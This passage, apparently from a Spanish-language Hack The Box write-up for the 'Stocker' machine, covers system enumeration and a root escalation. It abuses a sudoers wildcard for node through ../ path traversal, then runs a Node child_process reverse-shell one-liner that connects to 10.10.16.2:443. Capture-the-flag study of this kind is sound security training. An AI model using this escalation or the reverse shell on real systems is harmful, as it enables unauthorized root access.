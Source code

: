 ## Enumeracion del Sistema

### Version de Linux y Kernel

```bash
angoose@stocker:~$ uname -a
Linux stocker 5.4.0-136-generic #153-Ubuntu SMP Thu Nov 24 15:56:58 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
angoose@stocker:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.5 LTS
Release:	20.04
Codename:	focal
```

### SUDO

Vamos a ver si a nivel de SUDOERS tiene algun permiso para ejecutar algo como root

```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Y como dijimos antes vemos que a nivel de sudoers nos deja ejecutar como root la herramienta `node` cualquier *.js* script que se encuentre en esa carpeta, pero jugando un poco con bash podemos bypassear esa entrada y ejecutar codigo malicioso en js

## Escalada de Privilegios [RCE JAVASCRIPT]

```bash
sudo /usr/bin/node /usr/local/scripts/../../../../dev/shm/pwned.js
```

El problema aquí es que, si bien el administrador claramente quería permitir que angoose solo ejecutara scripts desde ese directorio, * esto indica que cualquier script que se encuentre ahi lo va ejecutar pero no tenemos permisos de escritura para crear un archivo JS malicioso, asi que un ../ nos dejara ejecutar cualquier JS en el sistema de archivos.


```javascript
require("child_process").exec('ping -c 1 10.10.16.2')
```
Vamos a crear el script que contiene JS malicioso y lo vamos a guardar en `/dev/shm/pwned.js`

Primero vamos a probar ejecuntando el comando ping a nuestra maquina

![](htb-writeup-stocker/stocker20.png)

### Shell como Root

`require("child_process").exec('bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"')`

![](htb-writeup-stocker/stocker21.png)

